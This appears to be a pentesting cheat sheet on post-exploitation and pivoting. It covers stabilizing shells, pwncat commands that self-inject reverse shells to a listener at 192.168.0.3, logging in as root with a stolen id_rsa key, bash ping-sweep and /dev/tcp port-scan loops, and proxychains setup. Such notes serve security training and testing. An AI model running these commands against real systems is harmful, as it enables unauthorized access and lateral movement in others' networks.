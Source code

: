 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```

Sometimes we may gain remote machine ssh secret utilizing it we may be able to get access to it.

```
1) Download the id_rsa to local machine.
2) chmod 600 id_rsa
3) ssh -i id_rsa root@192.169.0.3
```
#### Enumeration:
> There are various ways to enumerate other machines in a network


>Using tools avalable on system like using arp -a command.


>Checking /etc/hosts filein linux or C:\Windows\System32\drivers\etc\hosts file in Windows.


>Using local tools through proxy.

##### Enumerate live machines in a host 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

![Screenshot at 2022-12-19 13-01-33](https://user-images.githubusercontent.com/85208639/208370241-ce5cabbc-3141-4239-9065-2ed4b6ea1c3f.png)

#### Reverse Proxy VS Forward Proxy 
>Forward: Allows Host on Isolated Network to Connect to Public Internet


>Reverse: Allows Computers on Public Network to Access Private Subnet


#### Pivoting Techniques
| Tunneling | Port Forwarding |
| --- | ---|
|Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network|Creating a connection between local port and single port on target|
|Reliable if we want to perform nmap scan on other machine or send large amount of traffic.|Reliable but only single port can be accessed at a time.|

##### ProxyChains
>Default ProxyChain Directory
```
/etc/proxychains.conf
```

> While using proxychain with nmap only TCP scan works 

```

While using proxychains with nmap comment the following lines 

# Proxy DNS requests - no leak for DNS data
#proxy_dns 

```
```
Proxychain Usage: proxychains telnet 10.10.14.3 23
```

#### Foxy Proxy
Useful while proxying to a webapp running inside an isolated network.


##### Enable Disable ssh on your system
```
sudo systemctl status ssh
sudo systemctl enable ssh
```


